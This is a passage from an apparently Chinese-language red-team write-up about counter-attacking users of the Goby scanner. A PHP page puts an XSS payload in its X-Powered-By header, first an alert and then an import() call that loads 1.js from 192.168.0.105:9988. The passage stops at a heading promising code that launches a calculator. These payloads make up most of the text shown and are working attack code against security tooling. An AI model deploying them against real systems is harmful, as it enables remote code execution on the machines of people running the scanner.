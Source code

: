 ### 2.2.3. goby反制

**这里由于我这版本goby可能版本太高了，并未复现出来**

制作一个钓鱼页面，也就是一个弹窗XSS页面，让其goby去扫描，然后等到扫描结束后，去资产中点击IP地址，就会出现弹窗。

```
<?php
 header("X-Powered-By: PHP/<img	src=x	οnerrοr=alert(/xxx/)>");
?>
```

![184445de2b3746538ca6a752f911e3e1](assets/184445de2b3746538ca6a752f911e3e1.png)

#### 2.2.3.1. 修改PHP代码

这里将修改php代码，同时在创建一个1.js的代码。

```
php代码：
<?php
 header("X-Powered-By: PHP/<img	src=1	οnerrοr=import(unescape('http%3A//192.168.0.105:9988/1.js'))>");
?>
```

弹计算机代码：

